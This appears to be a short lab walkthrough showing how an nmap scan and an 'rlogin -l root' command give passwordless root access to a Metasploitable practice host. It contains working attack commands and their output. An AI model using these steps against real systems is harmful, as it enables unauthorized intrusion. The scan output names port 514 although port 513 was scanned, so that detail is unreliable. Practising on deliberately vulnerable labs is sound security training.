 ### RLOGIN (PORT 513) - CHECK

This port is misconfigured, so this "r" services is allowing remote access from hosts.

**Nmap scan**
````
$ nmap -p 513 192.168.56.101
````

*Port 513 // scan results*
````
Nmap scan report for 192.168.56.101 (192.168.56.101)
Host is up (0.00040s latency).

PORT    STATE SERVICE
514/tcp open  shell
````

**Rlogin login**
````
$ rlogin -l root 192.168.56.101 

Linux metasploitable 2.6.24-16-server #1 SMP Thu Apr 10 13:58:00 UTC 2008 i686

The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

To access official Ubuntu documentation, please visit:
http://help.ubuntu.com/
You have mail.
root@metasploitable:~# 
````
